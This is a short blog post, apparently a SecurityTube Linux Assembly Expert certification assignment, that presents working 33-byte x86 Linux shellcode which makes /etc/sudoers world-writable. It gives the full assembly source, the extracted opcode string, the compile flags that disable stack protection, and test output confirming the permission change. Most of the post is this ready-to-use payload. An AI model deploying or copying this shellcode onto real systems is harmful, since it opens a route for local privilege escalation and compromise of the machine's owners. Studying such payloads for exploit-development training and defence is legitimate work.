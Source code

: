 ## chmod 777 /etc/sudoers

For the last shellcode I decided to tackle something a little smaller and just made minor tweaks to the existing shellcode found here: 

<https://www.exploit-db.com/exploits/43463/>

The original shellcode was at 36 bytes and I reduced it down to 33 bytes by removing XOR instructions and replacing with CDQ and by PUSH and POPs to accomplish the same thing.

```
global _start
 
section .text
 
_start:
 
    cdq			; edx to 0
    push edx		; terminating NULL
    push 0x7372656f	; 'sreo'
    push 0x6475732f	; 'dus/'
    push 0x6374652f	; 'cte/'
    mov ebx, esp	; point ebx to stack
    mov cx, 0x1ff	; 777
    push 0xf		; chmod()
    pop eax		
    int 0x80		; execute chmod()
    push 0x1		; exit()
    pop eax
    int 0x80		; execute exit()
```

Let's compile and test (you know the drill by now).

```
absolomb@ubuntu:~/SLAE/assignments/6$ ./compile.sh chmod
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
absolomb@ubuntu:~/SLAE/assignments/6$ for i in $(objdump -d chmod |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x99\x52\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\xff\x01\x6a\x0f\x58\xcd\x80\x6a\x01\x58\xcd\x80
absolomb@ubuntu:~/SLAE/assignments/6$ vim shellcode.c
absolomb@ubuntu:~/SLAE/assignments/6$ gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/6$ sudo ./shellcode
Shellcode Length:  33
absolomb@ubuntu:~/SLAE/assignments/6$ ls -al /etc/sudoers
-rwxrwxrwx 1 root root 745 Feb 10  2014 /etc/sudoers
```

All done!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>